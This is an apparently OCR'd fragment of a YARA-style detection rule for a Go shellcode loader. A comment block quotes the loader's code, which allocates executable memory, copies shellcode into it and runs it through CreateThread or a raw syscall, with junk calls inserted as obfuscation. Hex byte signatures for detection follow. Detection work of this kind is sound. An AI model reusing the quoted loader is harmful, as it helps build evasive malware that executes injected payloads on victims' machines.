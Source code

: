 ```php
    var oldProtect uint32
    windows.VirtualProtect(addr, uintptr(len(code)), windows.PAGE_EXECUTE_READ, &amp;oldProtect)
    qCtgzA()
    kernel32 := windows.NewLazySystemDLL("kernel32.dll")
    qCtgzA()
    CreateThread := kernel32.NewProc("CreateThread")
    qCtgzA()
    time.Sleep(5000)
    thread, _, _ := CreateThread.Call(0, 0, addr, uintptr(0), 0, 0)
    windows.WaitForSingleObject(windows.Handle(thread), 0xFFFFFFFF)
}

——————————————————————————————syscall——————————————————————————————————————————
func bKIoHY(charcode []byte) {

    addr, _, err := VirtualAlloc.Call(0, uintptr(len(charcode)), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE)
    if err != nil &amp;&amp; err.Error() != "The operation completed successfully." {
        syscall.Exit(0)
    }
    _YqhvZ()
    _, _, err = RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&amp;charcode[0])), uintptr(len(charcode)))
    if err != nil &amp;&amp; err.Error() != "The operation completed successfully." {
        syscall.Exit(0)
    }
    _YqhvZ()
    syscall.Syscall(addr, 0, 0, 0, 0)
}

*/

    $s1 = {FF 20 47 6F 20 62 75 69 6C 64 20 49 44 3A}

    $x1 = {49 3B 66 10 0F 86 FC 01 00 00 48 83 EC 60 48 89 6C 24 58 48 8D 6C 24 58 48 89 5C 24 70 48 89 44 24 68 B9 00 30 00 00 BF 04 00 00 00 31 C0 E8 ?? ?? ?? ?? 48 89 44 24 28 90 48 8D 05 ?? ?? ?? 00 E8 ?? ?? ?? ?? 48 89 44 24 48 48 C7 40 08 09 00 00 00 48 8D 15 ?? ?? ?? 00 48 89 10 C6 40 10 01 90 48 8D 05 ?? ?? ?? 00 E8 ?? ?? ?? ?? 83 3D ?? ?? ?? 00 00 75 0C 48 8B 4C 24 48 48 89 48 18 90 EB 0E 48 8D 78 18 48 8B 4C 24 48 E8 ?? ?? ?? ?? 48 89 44 24 40 48 C7 40 08 0D 00 00 00 48 8D 0D ?? ?? ?? 00 48 89 08 E8 ?? ?? ?? ?? 48 8B 44 24 70 48 85 C0 0F 86 40 01 00 00 48 8B 4C 24 68 48 89 4C 24 50 48 8D 05 ?? ?? ?? 00 E8 ?? ?? ?? ?? 48 8B 4C 24 28 48 89 08 48 8B 54 24 50 48 89 50 08 48 8B 54 24 70 48 89 50 10 48 89 C3 BF 03 00 00 00 48 8B 44 24 40 48 89 F9 E8 ?? ?? ?? ?? C7 44 24 24 00 00 00 00 48 8B 44 24 28 48 8B 5C 24 70 B9 20 00 00 00 48 8D 7C 24 24 0F 1F 44 00 00 E8 ?? ?? ?? ?? E8 ?? ?? ?? ?? 90 48 8D 05 ?? ?? ?? 00 E8 ?? ?? ?? ?? 48 89 44 24 38 48 C7 40 08 0C 00 00 00 48 8D 0D ?? ?? ?? 00 48 89 08 C6 40 10 01 E8 ?? ?? ?? ?? 90 48 8D 05 ?? ?? ?? 00 90 E8 ?? ?? ?? ?? 83 3D ?? ?? ?? 00 00 75 0B 48 8B 4C 24 38 48 89 48 18 EB 0E 48 8D 78 18 48 8B 4C 24 38 E8 ?? ?? ?? ?? 48 89 44 24 30 48 C7 40 08 0C 00 00 00 48 8D 0D ?? ?? ?? 00 48 89 08 66 90 E8 ?? ?? ?? ?? B8 88 13 00 00 E8 ?? ?? ?? ?? 48 8D 05 ?? ?? ?? 00 E8 ?? ?? ?? ?? 48 8B 4C 24 28 48 89 48 10 44 0F 11 78 18 48 C7 40 28 00 00 00 00 48 89 C3 B9 06 00 00 00 48 89 CF 48 8B 44 24 30 E8 ?? ?? ?? ?? BB FF FF FF FF E8 ?? ?? ?? ?? 48 8B 6C 24 58 48 83 C4 60 C3}

    $x2 = {49 3B 66 10 0F 86 6A 01 00 00 48 83 EC 40 48 89 6C 24 38 48 8D 6C 24 38 48 89 5C 24 50 48 89 44 24 48 48 8D 05 ?? ?? ?? 00 E8 ?? ?? ?? ?? 48 8B 4C 24 50 48 89 48 08 48 C7 40 10 00 30 00 00 48 C7 40 18 40 00 00 00 48 8B 15 ?? ?? ?? 00 48 89 C3 BF 04 00 00 00 48 89 D0 48 89 F9 0F 1F 40 00 E8 ?? ?? ?? ?? 48 89 44 24 28 48 85 C9 74 3C 48 8B 49 18 48 89 F8 FF D1 48 83 FB 25 74 07 B8 01 00 00 00 EB 14 48 8D 1D ?? ?? ?? 00 B9 25 00 00 00 E8 ?? ?? ?? ?? 83 F0 01 84 C0 75 07 48 8B 44 24 28 EB 07 31 C0 E8 ?? ?? ?? ?? E8 ?? ?? ?? ?? 48 8B 44 24 50 48 85 C0 0F 86 AB 00 00 00 48 8B 4C 24 48 48 89 4C 24 30 48 8D 05 ?? ?? ?? 00 E8 ?? ?? ?? ?? 48 8B 4C 24 28 48 89 08 48 8B 54 24 30 48 89 50 08 48 8B 54 24 50 48 89 50 10 48 8B 15 ?? ?? ?? 00 48 89 C3 BF 03 00 00 00 48 89 D0 48 89 F9 E8 ?? ?? ?? ?? 48 85 C9 74 38 48 8B 49 18 48 89 F8 FF D1 48 83 FB 25 74 07 B8 01 00 00 00 EB 14 48 8D 1D ?? ?? ?? 00 B9 25 00 00 00 E8 ?? ?? ?? ?? 83 F0 01 84 C0 74 0A 31 C0 0F 1F 00 E8 ?? ?? ?? ?? E8 ?? ?? ?? ?? 48 8B 44 24 28 31 DB 48 89 D9 48 89 CF 48 89 CE E8 ?? ?? ?? ?? 48 8B 6C 24 38 48 83 C4 40 C3}

```